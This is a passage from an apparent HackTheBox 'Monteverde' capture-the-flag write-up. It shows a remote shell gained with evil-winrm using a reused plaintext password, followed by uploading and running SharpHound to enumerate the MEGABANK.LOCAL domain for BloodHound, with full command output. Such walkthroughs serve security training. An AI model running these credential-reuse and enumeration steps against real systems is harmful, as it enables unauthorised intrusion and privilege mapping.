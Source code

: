 We doo have a plain text password for the user mhope and let’s see if the user have reused this password as the account.

## Shell as mhope

```bash
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../Desktop 

    Directory: C:\Users\mhope\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/16/2025   7:39 AM             34 user.txt
```

We can run gather the domain data using sharphound and put it into bloodhound and see for any intresting controls.

## Bloodhound

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload SharpHound.exe
                                        
Info: Uploading /home/kali/htb/monteverde/SharpHound.exe to C:\Users\mhope\Desktop\SharpHound.exe
                                        
Data: 965288 bytes of 965288 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\mhope\Desktop> .\SharpHound.exe
2025-09-16T07:46:58.0810997-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-09-16T07:46:58.0967244-07:00|INFORMATION|Initializing SharpHound at 7:46 AM on 9/16/2025
2025-09-16T07:46:58.1748516-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for MEGABANK.LOCAL : MONTEVERDE.MEGABANK.LOCAL
2025-09-16T07:46:58.1904819-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-09-16T07:46:58.2842256-07:00|INFORMATION|Beginning LDAP search for MEGABANK.LOCAL
2025-09-16T07:46:58.3154735-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-09-16T07:46:58.3154735-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-09-16T07:47:28.6279847-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2025-09-16T07:47:42.2842280-07:00|INFORMATION|Consumers finished, closing output channel
2025-09-16T07:47:42.3154812-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-09-16T07:47:42.4561008-07:00|INFORMATION|Status: 121 objects finished (+121 2.75)/s -- Using 42 MB RAM
2025-09-16T07:47:42.4561008-07:00|INFORMATION|Enumeration finished in 00:00:44.1789412
2025-09-16T07:47:42.5185995-07:00|INFORMATION|Saving cache with stats: 79 ID to type mappings.
 79 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
```